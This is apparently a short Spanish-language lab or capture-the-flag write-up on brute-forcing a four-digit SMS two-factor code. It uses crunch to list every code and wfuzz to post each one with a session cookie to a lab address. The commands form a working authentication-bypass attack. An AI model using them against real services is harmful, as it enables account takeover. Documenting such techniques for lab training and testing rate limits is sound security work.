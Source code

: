 
# Web /sms 2FA code

Podemos generar una lista de códigos que varíen entre `0000` y `9999` para probar todas las combinaciones posibles. Sin embargo, esto solo será efectivo si no hay un límite en el número de intentos de verificación.

``` shell
crunch 4 4 0123456789 -o nums.txt
```

``` nums.txt
0000
0001
....
9998
9999
```

Es necesario identificar qué campo debemos completar y enviar utilizando `fuzzing`, junto con la `cookie` correspondiente.

<figure><img src="../.gitbook/assets/Intranet/sms_code.png" alt=""><figcaption></figcaption></figure>

```
wfuzz --hl 77 -w nums.txt -d "sms=FUZZ" -b session=<cokkie> 10.10.141.85:8080/sms
```

<figure><img src="../.gitbook/assets/Intranet/sms_payload.png" alt=""><figcaption></figcaption></figure>
